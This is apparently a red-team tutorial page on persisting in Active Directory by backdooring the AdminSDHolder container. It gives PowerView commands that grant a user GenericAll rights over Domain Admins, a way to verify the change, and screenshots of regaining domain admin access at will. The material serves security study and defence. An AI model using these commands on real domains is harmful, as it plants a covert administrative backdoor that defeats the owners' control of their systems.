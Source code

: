 # Backdooring AdminSDHolder for Persistence

## AdminSDHolder

`AdminSDHolder` is a special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups (like Domain Admins, Enterprise Admins, etc.) to prevent their accidental and unintended modifications, and to keep them secure.

Once you have agained Domain Admin privileges, `AdminSDHolder` container can be abused by backdooring it by giving your user `GenericAll` privileges, which effectively makes that user a Domain Admin.

## Execution

Backdooring the AdminSDHolder container by adding an ACL that provides user `spotless` with `GenericAll` rights for `Domain Admins` group:

```csharp
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-21-53.png)

This is actually what happens to the container - the security ACLs get updated and `spotless` gets all the privileges:

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-24-32.png)

After 60+ minutes, the changes will propagate automatically, but if you want to force it (if you are testing this in your labs), you can do it via ldp.exe by Modifying DN like so:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-07-01.png)

Now, confirming that the user spotless has got `GenericAll` privileges against `Domain Admins` group:

```csharp
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-07-30.png)

We can now hop back to the Domain Admins any time we want to:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-12-38.png)

In fact, we do not even need to be part of DA group, we still have full access to the DC:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-19-14.png)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/" %}

{% embed url="https://adsecurity.org/?p=1906" %}

{% embed url="https://blog.stealthbits.com/persistence-using-adminsdholder-and-sdprop/" %}
